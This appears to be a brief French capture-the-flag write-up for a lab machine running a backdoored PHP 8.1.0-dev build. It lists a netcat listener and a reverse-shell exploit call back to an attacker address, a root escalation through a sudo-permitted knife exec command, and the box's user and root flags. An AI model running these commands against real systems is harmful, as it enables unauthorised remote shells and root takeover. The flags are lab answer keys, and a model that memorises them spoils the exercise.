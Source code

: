 #ip box : 10.10.10.242

#exploit PHP 8.1.0-dev 

#commmande shell reverse shell interactif :

nc -nlvp 4444
python3 revshell_php_8.1.0-dev.py "http://10.10.10.242/" "10.10.14.11" "4444"

#user flag : c41bd89607db2540cd9a4789b978095b
 
 passer root :

 sudo -l 

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife

 sudo /usr/bin/knife exec --exec 'exec "/bin/bash";'
 
ou bien passer en script en ruby ds un fichier puis l'executer
 
 flag root :
 a07f349ab05cbe75e3d10b2ac8fdc52f